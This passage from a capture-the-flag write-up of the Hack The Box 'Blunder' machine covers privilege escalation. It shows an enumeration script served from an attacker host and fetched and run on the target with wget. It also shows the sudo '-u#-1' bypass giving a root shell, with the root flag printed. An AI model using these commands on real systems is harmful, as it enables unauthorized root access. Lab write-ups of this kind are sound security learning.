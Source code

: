The first screenshot is interesting, the user seems to use a buffer overflow on a program in /usr/local/sbin that allows him to get root. Lets try to find the program, and maybe reverse engineer it.
```bash
hugo@blunder:/home/shaun/Pictures$ cd /usr/local/sbin
cd /usr/local/sbin
hugo@blunder:/usr/local/sbin$ ls
ls
visudo
hugo@blunder:/usr/local/sbin$ ./visudo
./visudo
visudo: /etc/sudoers: Permission denied
hugo@blunder:/usr/local/sbin$ 
```
Ok, the script isn't there anymore and we can't run the binary. Lets run LinEnum.sh and see if we can find anything interesting.
On our attacking machine:
```bash
kali@kali:~/hackthebox/Blunder$ ls
 buzz.wav    fullshell.txt   LinEnum.sh   nmap.txt         poc.py   'Screenshot from 2019-11-28 13-17-29.png'   user.txt
 bypass.py   hash.txt        list.txt     phpreverse.php   pspy32s  'Screenshot from 2019-11-28 14-02-13.png'
kali@kali:~/hackthebox/Blunder$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
``` 
And on Blunder
```bash
hugo@blunder:~$ wget x.x.x.x:8000/LinEnum.sh
wget x.x.x.x:8000/LinEnum.sh
--2020-06-06 17:09:12--  http://x.x.x.x:8000/LinEnum.sh
Connecting to x.x.x.x:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17082 (17K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh          100%[===================>]  16.68K  --.-KB/s    in 0.02s   

2020-06-06 17:09:12 (744 KB/s) - ‘LinEnum.sh’ saved [17082/17082]

hugo@blunder:~$ chmod +rwx Lin
chmod +rwx LinEnum.sh 
hugo@blunder:~$ ./L
./LinEnum.sh 
```
Something that stood out was snap, but the current version didn't have any exploits.On the other hand, the sudo version was 1.8.25p1. If you had done other boxes, you're familiar with the vulnerability with this version. Here is the page for it: https://www.exploit-db.com/exploits/47502. I was hitting my head after realizing how simple the vulnerability was, but it was a nice way of getting root.
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash                                                                                                          
root@blunder:/home/hugo# id                                                                                                   
id                                                                                                                            
uid=0(root) gid=1001(hugo) groups=1001(hugo)                                                                                  
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
7b270689d7cb80c4b8f0c35ad121341f
root@blunder:/home/hugo# 
```
## Conclusion